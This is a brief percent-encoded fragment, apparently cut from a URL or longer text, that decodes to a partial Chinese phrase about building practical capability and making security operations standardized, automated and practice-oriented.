%E6%88%98%E8%83%BD%E5%8A%9B%E7%A7%AF%E7%B4%AF%E4%B8%8E%E4%BC%A0%E9%80%92%E3%80%81%E8%90%BD%E5%9C%B0%E5%AE%89%E5%85%A8%E8%BF%90%E8%90%A5%E6%A0%87%E5%87%86%E5%8C%96%E3%80%81%E8%87%AA%E5%8A%A8%E5%8C%96%E3%80%81%E5%AE%9E%E6%88%98%E5%8C%96%E3%80%82)